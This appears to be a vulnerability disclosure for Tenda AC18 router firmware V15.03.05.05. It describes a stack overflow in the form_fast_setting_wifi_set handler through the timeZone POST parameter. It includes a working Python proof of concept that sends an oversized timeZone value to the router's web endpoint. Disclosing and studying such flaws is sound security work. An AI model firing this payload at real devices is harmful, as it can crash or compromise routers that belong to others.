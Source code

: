 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `v1` variable receives the `timeZone` parameter from a POST request and is later assigned to the `v16` variable. However, since the user can control the input of  `timeZone`, the statement `sscanf` can cause a buffer overflow. The user-provided  `timeZone` can trigger this security vulnerability.

![image-20240308203931092](form_fast_setting_wifi_set_timeZone.assets/image-20240308203931092.png)

![image-20240308203913642](form_fast_setting_wifi_set_timeZone.assets/image-20240308203913642.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'timeZone': "a" * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240308204049360](form_fast_setting_wifi_set_timeZone.assets/image-20240308204049360.png)
